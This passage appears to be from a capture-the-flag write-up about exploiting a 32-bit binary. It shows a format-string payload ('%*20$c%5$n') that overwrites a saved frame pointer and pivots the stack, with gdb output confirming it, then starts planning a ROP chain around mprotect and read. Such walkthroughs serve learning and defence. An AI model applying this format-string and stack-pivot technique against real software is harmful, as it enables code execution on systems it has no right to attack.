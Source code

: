 So if we can somehow set one of the stack positions where `leave` is executed, then ebp will be set to a value of our choice, and then one set of `leave; ret` later `ebp` will be moved into `esp` and we'll have achieved our stack pivot. So basically, we want to set address `0xffffd4e0` to value `0x080542e0`, the position of our "password" data. At this point, I got stuck - I knew that using the `%n` format (or `%hhn`) would write the current number of printed characters into that parameter offset, but didn't quite realize how `$` and `*` could be used. Reading through [the printf man page](https://linux.die.net/man/3/printf), we can see how parameters can be accessed out of order using the `$` character and `*` gives the field width in an argument. Putting all this together we can do the following:

```
%*20$c      -- print a character with field width found in the 20th argument (address 0xffffd524, value 0x080542e0, our "password" input)
%5$n        -- write the current number of characters written (0x080542e0 given the prior format) to the 5th argument (offset 0xffffd4e8)
```

Using both of these together we can input this for our "username" input and step in gdb to see the result.

```
(gdb) r
...
 username: %*20$c%5$n
 password: abcdefghijklmn

Breakpoint 1, 0x08048994 in ?? ()
(gdb) ni
0x08048999 in ?? ()
...
0x08048a23 in ?? ()
(gdb) x/i $eip
=> 0x8048a23:	ret    
(gdb) x/20wx $esp
0x80542e4:	0x68676665	0x6c6b6a69	0x000a6e6d	0x00000000
0x80542f4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8054304:	0x00000000	0x00000000	0x00000000	0x00000000
0x8054314:	0x00000000	0x00000000	0x00000000	0x00000000
0x8054324:	0x00000000	0x00000000	0x00000021	0x30322a25
(gdb) ni
0x68676665 in ?? ()
```

This shows that the format string worked, sets up `esp` to "password+4" and then hits a `ret` instruction.

## ROP and Shellcode

At this point, we have a 0x3c-long ROP chain which we need to turn into shellcode. None of the memory we have available is both write and execute so we'll have to call mprotect() at some point. Doing this means that we don't quite have enough room in our ROP chain to store both the ROP and shellcode so we'll also have to read in some new memory as well. Some helpful addresses we have are:

```
0x080485D0 -- jump to mprotect() system call
0x080485E0 -- jump to read() system call
0x080485AE -- ROP gadget to: 'add $esp, 8', 'pop ebx', 'ret'
```
